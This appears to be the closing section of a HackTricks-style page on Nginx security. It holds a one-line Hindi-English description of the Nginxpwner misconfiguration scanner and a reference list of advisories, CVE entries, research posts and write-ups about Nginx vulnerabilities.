Nginxpwner common Nginx misconfigurations और vulnerabilities खोजने के लिए एक simple tool है।

## References

- [1] [Common Nginx misconfigurations that leave your web server open to attack](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/)
- [2] [Nginx resolver vulnerabilities allow cache poisoning attack](http://blog.zorinaq.com/nginx-resolver-vulns/)
- [3] [Detection of scenario when default is not specified for map directive · Issue #115 · yandex/gixy](https://github.com/yandex/gixy/issues/115)
- [4] [NVD - CVE-2026-42926: HTTP/2 request injection in ngx_http_proxy_v2_module](https://nvd.nist.gov/vuln/detail/CVE-2026-42926)
- [5] [nginx security advisory (CVE-2025-23419)](https://mailman.nginx.org/pipermail/nginx-announce/2025/NYEUJX7NCBCGJGXDFVXNMAAMJDFSE45G.html)
- [6] [HTTP/2 Rapid Reset Attack Impacting F5 NGINX Products](https://www.f5.com/company/blog/nginx/http-2-rapid-reset-attack-impacting-f5-nginx-products)
- [7] [proxy_pass: nginx's Dangerous URL Normalization of Paths](https://joshua.hu/proxy-pass-nginx-decoding-normalizing-url-path-dangerous)
- [8] [nginx security advisory (CVE-2024-7347)](https://mailman.nginx.org/pipermail/nginx-announce/2024/UUOCLLONPR6244YQYU65PO5LB7JDYCWM.html)
- [9] [HTB: Snapped - 0xdf hacks stuff](https://0xdf.gitlab.io/2026/04/01/htb-snapped.html)
- [10] [NVD - CVE-2026-27944](https://nvd.nist.gov/vuln/detail/CVE-2026-27944)
- [11] [Nginx UI - Unauthenticated Backup Download with Encryption Key Disclosure (GHSA-g9w5-qffc-6762)](https://github.com/0xJacky/nginx-ui/security/advisories/GHSA-g9w5-qffc-6762)
- [12] [Acunetix - Path Traversal via Misconfigured Nginx Alias](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/)
- [13] [HTTP response splitting exploitations and mitigations](https://blog.detectify.com/2019/06/14/http-response-splitting-exploitations-and-mitigations/)
- [14] [Sergey Bobrov - HTTP Request Splitting vulnerabilities exploitation (talk)](https://www.youtube.com/watch?v=gWQyWdZbdoY&list=PL0xCSYnG_iTtJe2V6PQqamBF73n7-f1Nr&index=77)
- [15] [HackerOne report #370094 - Nginx variable disclosure via SSI](https://hackerone.com/reports/370094)
- [16] [NGINX may be protecting your applications from traversal attacks without you even knowing](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d)
- [17] [CORS Playground](https://mizu.re/post/cors-playground)
- [18] [Research on h2c Smuggling: Request Smuggling Via HTTP/2 Cleartext (h2c)](https://bishopfox.com/blog/h2c-smuggling-request)
- [19] [nginx security advisory (CVE-2024-31079, CVE-2024-32760, CVE-2024-34161, CVE-2024-35200)](https://mailman.nginx.org/pipermail/nginx-announce/2024/GMY32CSHFH6VFTN76HJNX7WNEX4RLHF6.html)
- [20] [https://mailman.nginx.org/pipermail/nginx-announce/2024/GWH2WZDVCOC2A5X67GKIMJM4YRELTR77.html](https://mailman.nginx.org/pipermail/nginx-announce/2024/GWH2WZDVCOC2A5X67GKIMJM4YRELTR77.html)
- [21] [nginx.org - Ngx Http Proxy Module: Proxy Pass](https://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_pass)
- [22] [nginx.com - in the docs](https://www.nginx.com/resources/wiki/start/topics/examples/x-accel)

{{#include ../../banners/hacktricks-training.md}}
